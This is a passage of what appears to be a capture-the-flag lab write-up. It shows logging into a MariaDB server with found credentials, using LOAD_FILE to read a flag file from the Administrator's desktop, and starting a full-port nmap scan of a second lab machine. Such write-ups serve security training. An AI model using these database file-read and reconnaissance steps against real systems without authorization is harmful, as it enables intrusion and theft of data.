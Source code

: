Now we can log in to mysql service:
```c
mysql -u fiona -p987654321 -h 10.129.232.182 --skip-ssl

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 10
Server version: 10.4.24-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| phpmyadmin         |
| test               |
+--------------------+
5 rows in set (0.113 sec)

```

To get the flag we will use:
```c
MariaDB [phpmyadmin]> SELECT LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt");
+------------------------------------------------------+
| LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt") |
+------------------------------------------------------+
| HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}              |
+------------------------------------------------------+
1 row in set (0.111 sec)
```


### Medium 

Assess the target server and find the flag.txt file. Submit the contents of this file as your answer. 

As usual we start with nmap scan:
```c
sudo nmap 10.129.208.17 -Pn -sV -sC -p- --min-rate=200 -T 4 -oN mediumlab -v

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
53/tcp    open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
110/tcp   open  pop3     Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Issuer: commonName=ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-04-11T16:38:55
| Not valid after:  2032-04-08T16:38:55
```
